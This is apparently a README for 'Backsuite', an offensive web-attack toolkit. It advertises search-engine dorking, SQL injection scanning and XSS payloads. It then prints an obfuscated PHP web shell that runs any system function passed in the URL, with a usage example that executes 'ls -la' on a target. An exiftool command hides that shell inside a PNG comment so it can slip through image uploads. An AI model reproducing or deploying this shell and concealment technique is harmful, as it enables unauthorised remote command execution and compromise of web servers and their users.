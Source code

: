 # Backsuite
 
 <ul>
  <li>[ &#x1F608;  ] Dorks with : google.com / yahoo.com / bing.com</li>
  <li>[ &#x1F52D;  ] Scope ending files : <b>php</b> / <b>aspx</b></li>
  <li>[ &#x1F489;  ] Scan : SQL Injection </li>
  <li>[ &#x1F4C4;  ] List of Syntax <I><b>[errors]</b></I> to detect an SQL injection  </li>
  <li>[ &#x274C;  ] Xss payloads   </li>
  <li>[ &#x1F50D;  ] SQL injection - Characters   </li>
</ul>


# Use <TARGET>/file.php?_=system&__=ls -la

SHELL = {`<?php $_="{";$_=($_^"<").($_^">;").($_^"/");?><?=${'_'.$_}["_"](${'_'.$_}["__"]);`}

##### Download <img height="33" width="33" src="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png"><a href="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png">Img<a> 

 `exiftool -Comment="SHELL __halt_compiler();" googleg_standard_color_128dp.png`
